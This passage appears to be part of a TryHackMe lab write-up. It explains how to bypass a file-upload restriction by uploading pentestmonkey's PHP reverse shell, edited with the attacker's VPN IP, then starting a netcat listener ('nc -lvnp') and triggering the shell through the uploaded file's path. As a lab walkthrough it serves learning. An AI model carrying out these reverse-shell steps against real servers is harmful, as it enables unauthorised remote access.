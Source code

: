 ![Upload Reverse Shell](https://github.com/user-attachments/assets/0829c5f3-101f-4fda-bb22-16cedbe42a88)

---

## Uploading Reverse Shell

To bypass the restriction and get a reverse shell, we use a PHP reverse shell from [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell).

Download the reverse shell using:

![Reverse Shell](https://github.com/user-attachments/assets/19f28f5b-098b-41a4-b576-53322a3084ab)

```bash
git clone https://github.com/pentestmonkey/php-reverse-shell
cd php-reverse-shell
nano php-reverse-shell.php 
```

Replace the IP with your THM VPN IP.

---

### Uploading the Reverse Shell:

![Upload Reverse Shell](https://github.com/user-attachments/assets/0829c5f3-101f-4fda-bb22-16cedbe42a88)

---

## Setting up Listener

In a separate terminal, start a Netcat listener:

```bash
nc -lvnp <your-port>
```

Once the file is uploaded successfully, trigger the shell by navigating to the uploaded file path.

---

### Reverse Shell Captured:

![Reverse Shell](https://github.com/user-attachments/assets/19f28f5b-098b-41a4-b576-53322a3084ab)
